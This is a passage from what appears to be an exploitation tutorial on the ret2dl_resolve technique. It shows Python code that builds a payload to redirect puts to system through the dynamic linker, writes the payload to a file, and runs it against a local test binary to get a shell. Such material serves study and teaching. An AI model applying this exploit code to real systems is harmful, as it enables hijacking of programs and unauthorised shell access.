 Finally, this will set up to write the address of `system` to the GOT
entry for `puts`.  So once all these have taken place, we can return
to the call to `_dl_runtime_resolve` from the PLT entry for `puts`
with arguments `reloc_idx` and `link_map`.  Once this completes, it
will continue directly to `system`, so we also need to provide the
argument to that: 

```
payload += le(PUTS_PLT)
payload += le(reloc_idx)
payload += le(link_map) 
payload += le(arg_addr)
```

We write this to a file: 

```
with open("payload","wb") as f:
    f.write(payload)
```

And run the program with our payload: 

```
$ python ret2dl.py write
$ ./test/test payload 
sh-4.4$ 
```

